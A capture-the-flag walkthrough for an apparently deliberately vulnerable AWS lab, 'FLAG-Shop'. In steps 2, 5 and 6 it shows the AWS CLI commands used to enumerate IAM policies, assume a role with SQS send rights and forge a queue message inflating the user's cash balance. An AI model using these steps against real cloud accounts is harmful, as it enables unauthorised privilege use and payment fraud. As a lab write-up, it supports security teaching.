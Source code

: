 1. The attacker accesses the web page and identifies the features first
  
    [ page ] → what can do  
    /        → User can buy items.  
    /receipt → User can see the purchase.  
    /charge  → User can charge the cash.


   
2. The attacker checks the privileges it has
  
    ```bash
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials
    aws configure --profile [profile_name]
    # This command will give you the ARN & full name of you user.
    aws --profile [profile_name] sts get-caller-identity
    # This command will list the policies attached to your user.
    aws --profile [profile_name] iam list-user-policies --user-name [user_name]
    # This command will view the permissions granted to inline policies.
    aws --profile [profile_name] iam get-user-policy --user-name [user_name] --policy-name [polict_name]
    ```  
    ※ Attacker finds that they have assume-role privileges for a particular role.  
    ※ Attacker looks for clues about how to attack using this privilege.
  

      
4. Find the web source code. By analyzing the source code, the attacker checks the format of message sent to the SQS service
  
    ※ The website has a github address exposed as an annotation.  
    → https://github.com/BoB12-C-G-V/FLAG-Shop
  
    < Code Analysis Results >- When charging the cash, a message is sent to the SQS service.  
    - The lambda function does not verify the received message.  
    - The message format is `{"charge_amount" : cash}`  
  
    ※ Attacker plans to forge the cache and send message to the SQS service.  
  

  
5. Assume the the sending message role about SQS service
    
    ```bash
    # This command will get you credentials for the role that can send message to SQS service
    aws --profile [profile_user] sts assume-role --role-arn [role_arn] --role-session-name [whatever_you_want_here]
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials 
    aws configure --profile [assumed_profile_name]
    # This command will appends the obtained session token to the ~/.aws/credentials file
    echo "aws_session_token = {얻은 토큰}" >> ~/.aws/credentials
    ```


  
6. The attacker, who possesses the necessary permissions, sends a forged message to the SQS service queue
    
    ```bash
    # This command wil get you queue-url of SQS service
    aws --profile [assumed_profile_name] sqs get-queue-url --queue-name cash_charging_queue
    # This command wil sends a forged message to the SQS service queue
    aws --profile [assumed_profile_name] sqs send-message --queue-url [queue_url] --message-body '{"charge_amount": 100000000}'
    ```


  
7. Check the changed assets, purchase FLAG and check the secret-string
